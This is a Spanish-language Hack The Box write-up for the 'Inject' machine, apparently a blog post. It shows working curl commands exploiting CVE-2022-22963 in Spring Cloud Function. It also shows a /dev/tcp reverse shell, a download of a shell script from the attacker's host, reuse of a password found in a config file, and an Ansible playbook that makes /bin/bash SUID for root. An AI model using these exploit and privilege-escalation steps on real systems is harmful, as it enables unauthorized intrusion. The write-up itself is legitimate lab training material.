 ```yaml
---
layout: post
author: 4akatun
---
```


# Writeup
![Inject]({{'assets/img/Inject/inject.png' | relative_url}}) 

HACK-THE-BOX

-----------------------------------------------------------

Iniciamos el escaneo en la maquina victima.

```bash
# Nmap 7.93 scan initiated Tue Mar 21 20:39:10 2023 as: nmap -sCV -p22,8080 -oN targeted 10.10.11.204
Nmap scan report for 10.10.11.204
Host is up (0.049s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 21 20:39:20 2023 -- 1 IP address (1 host up) scanned in 10.36 seconds
```
Analizo la pagina web, dado que no hay mucho mas.


![web-Inject]({{'/assets/img/Inject/web_inject.png' | relative_url}})

Veo esto, curioseando lo unico interesante en el apartado **upload**

![upload]({{'/assets/img/Inject/upload_inject.png' | relative_url}})

Solo admite archivos de imagen

![upload-result]({{'/assets/img/Inject/img_upload.png' | relative_url}})

Provare con cualquier imagen 

![upload-succes]({{'/assets/img/Inject/succesful_img.png' | relative_url}})

Bien, se ha subido correctamente y paso por **BurpSuite** la *url* de la imagen. Se ve lo siguiente...

![img-url]({{'/assets/img/Inject/burp_inject.png' | relative_url}})

Buscando algo de lo que aprovecharme, encuentro en la ruta **/var/www/WebApp** un 
archivo con nombre ***pom.xml***

![xml-file]({{'/assets/img/Inject/xml.png' | relative_url}})

Lo examino y encuentro algo y busco informacion para ver si me puedo aprovechar para poder subir 
archivos a la maquina victima. Dejo enlaces con la informacion ->
* Enlace [How to exploit CVE-2022-22963](https://sysdig.com/blog/cve-2022-22963-spring-cloud/)
* Enlace [Exploit](https://github.com/darryk10/CVE-2022-22963)

Probamos los comandos para subir un archivo *test* y ver que funcione.

```bash
❯ curl -X POST -H 'Host: 10.10.11.204:8080' -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/test")' --data-binary 'exploit_poc' 'http://10.10.11.204:8080/functionRouter'
```
![test-file]({{'/assets/img/Inject/test_file_inject.png' | relative_url}})

Y lo tenemos, archivo subido, ahroa subimos nuestro archivo malicioso con un comando de **revers shell**

```bash
bash -i >& /dev/tcp/tu-ip/443 0>&1
```
Lo volvemo a subir con el comando anterior.

```bash
❯ curl -X POST -H 'Host: 10.10.11.204:8080' -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl 10.10.14.15/rever.sh -o /tmp/rever.sh")' --data-binary 'exploit_poc' 'http://10.10.11.204:8080/functionRouter'
```

![revers-file]({{'/assets/img/Inject/rever_inject.png' | relative_url}})

Ya esta, lo queda mandar otra orden para ejectar el archivo y estando en escucha en nuestro equipo con **netcat** obtenemos una **shell**

```bash
❯ curl -X POST -H 'Host: 10.10.11.204:8080' -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/rever.sh")' --data-binary 'exploit_poc' 'http://10.10.11.204:8080/functionRouter'
```

```
bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.204] 40436
bash: cannot set terminal process group (820): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.0$ whoami
whoami
frank
bash-5.0$ 
```
Estamo dentro como el usuario *frank*, tendremos que pivotar de usuario a *phil* para poder ver la flag de bajos privilegios.

```bash
bash-5.0$ cat settings.xml 
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
bash-5.0$
```
Encuentro un archivo llamando **settings.xml** al que hechandole un vistazo vemos al usuario *phil* y una *contraseña* que probaremos para cambiar de usuario y ver si aun es valida.

```bash
bash-5.0$ su phil
Password:DocPhillovestoInject123
bash-5.0$ whoami
phil
bash-5.0$ cat /home/phil/user.txt 
e0c**************************fcb
bash-5.0$ 
```
Pareceser que es valida y podemos visualizar la flag, hora de continuar con la escalada.
Subimos el binario **linpeas** para analizar y buscar formas factibles de escalada de privilegios.


![linpeas]({{'/assets/img/Inject/linpeas.png' | relative_url}})

Veo este archivo en la ruta **/opt** el cual puede ser modificado, busco mas informacion para
ver de que se trata. Dejo lo enlaces ->

* Enlace [playbook-guide](https://docs.ansible.com/ansible/latest/playbook_guide/playbooks_intro.html)
* Enlace [playbook-guide-privilege-scalation](https://docs.ansible.com/ansible/latest/playbook_guide/playbooks_privilege_escalation.html)

Bien una vez analizada la informacion nos cramos nuestro archivo de nombre **pe.yml** al que le 
otorgare la capacidad de cambiar los permisos de **/bin/bash** para que sea **SUID**.

```yaml
 - hosts: localhost
   tasks:
     - name: 4aka pe
       shell: chmod +s /bin/bash
       become: true
```

Ya lo tenemos y esperdao unos segundos es ejecutado y obtenemos una *shell* con maximos privilegios,
vemos la flag final.

```bash
bash-5.0$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt 
7f6**************************bf6
bash-5.0#
```
Esto es todo.

# Espero que te pueda servir de ayuda. *GRACIAS por venir*
